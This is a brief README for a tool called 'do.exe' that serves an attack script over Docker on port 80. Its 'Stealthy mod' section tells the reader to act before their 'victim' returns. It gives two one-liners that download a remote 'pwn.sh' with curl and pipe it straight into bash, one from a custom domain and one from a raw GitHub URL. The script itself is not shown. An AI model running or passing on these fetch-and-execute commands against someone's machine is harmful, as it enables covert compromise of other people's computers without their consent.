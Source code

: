 # do.exe

## Get started

To build the script and exposing it on port 80:

```
docker compose up --build
```

## Stealthy mod

You are in a panic state, your victim can come from one moment to another and you need to execute the script at full speed without go in GitHub:

### With DNS :

```
bash <(curl -L do.yubu.app/pwn.sh)
```

### Without DNS :

```
bash <(curl https://raw.githubusercontent.com/LeoFVO/do.exe/main/pwn.sh)
```
